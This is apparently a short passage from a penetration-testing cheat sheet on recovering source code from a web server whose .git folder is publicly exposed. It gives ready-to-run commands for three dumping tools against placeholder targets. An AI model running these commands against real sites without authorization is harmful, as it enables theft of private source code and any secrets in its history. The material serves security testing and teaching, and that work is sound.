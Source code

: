 In case .git folder is found:
```bash
git clone https://github.com/lijiejie/GitHack.git && cd GitHack

python GitHack.py http://example.com/.git/
```
This will download .git folder and restore source code.

More powerfull tool (supports git commit history):
```bash
python3 -m pip install -i https://pypi.org/simple/ GitHacker

githacker --url http://127.0.0.1/.git/ --output-folder result
```

Another tool:
```bash
pip install git-dumper

git-dumper http://example.com/.git git-repo
```

